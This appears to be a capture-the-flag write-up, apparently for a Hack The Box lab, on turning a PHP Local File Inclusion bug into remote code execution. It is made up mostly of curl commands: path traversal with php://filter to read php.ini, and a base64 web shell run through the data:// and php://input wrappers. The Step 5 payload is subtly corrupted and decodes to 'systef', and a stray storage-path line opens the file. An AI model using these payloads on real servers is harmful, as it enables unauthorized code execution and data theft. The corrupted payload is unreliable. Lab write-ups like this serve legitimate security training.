 # PHP LFI to RCE Exploit Write-Up

This repository documents a step-by-step process to exploit a Local File Inclusion (LFI) vulnerability in a PHP web application to read sensitive files and achieve Remote Code Execution (RCE).

## Overview
The target is a web server running a PHP application at `http://94.237.58.172:47698`. The application has an LFI vulnerability in the `language` parameter, which allows reading arbitrary files and, with `allow_url_include` enabled, executing remote code.

## Steps

### Step 1: Discover LFI Vulnerability
Using `curl`, I accessed the `php.ini` file by exploiting the LFI vulnerability with a PHP filter to base64-encode the file content:
```bash
curl "http://94.237.58.172:47698/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```
The response contained the base64-encoded php.ini file embedded in the HTML.
### Step 2: Save and Decode the File
I saved the HTML response (including the base64-encoded `php.ini`) to a file named `text.text`:
```bash
nano text.text
```
Then, I decoded the base64 content to extract the php.ini file:
```bash
base64 -d text.text > config.php
```
### Step 3: Check for `allow_url_include`

I inspected the decoded `php.ini` to confirm if `allow_url_include` was enabled:
`grep allow_url_include config.php`
![image](https://github.com/user-attachments/assets/53bb4fc4-39ed-43a5-8995-9b65955f9691)
`allow_url_include = On`. This setting allows including remote files, enabling potential RCE.

### Step 4: Achieve Remote Code Execution

I crafted a PHP payload to execute system commands via the `cmd` parameter:

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```
`PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==`.
Using the `data:// wrapper`, I included the base64-encoded payload and executed the `id` command:
```bash
curl -s 'http://94.237.58.172:47698/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
![image](https://github.com/user-attachments/assets/f1dffee5-c6b0-4e02-9f32-31758e7a0c00)

I also tried an alternative method using POST with `php://input`:
```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://94.237.58.172:47698/index.php?language=php://input&cmd=id" | grep uid
```
![image](https://github.com/user-attachments/assets/1827af98-4e22-4b83-850f-794ccbf15d21)

Same output, confirming RCE.

### Step 5: Explore the File System

I listed the root directory to find interesting files:

curl -s 'http://94.237.58.172:47698/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVmKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls%20/'

_Explore more to get the flag._

## Notes
This exploit relies on `allow_url_include = On` and an LFI vulnerability.

The `data://` and `php://input` wrappers were used to bypass restrictions and execute code.

Always test exploits in controlled environments (e.g., CTFs like Hack The Box).

## Files
`text.text`: Raw HTML response containing base64-encoded `php.ini`.

`config.php`: Decoded `php.ini` file.


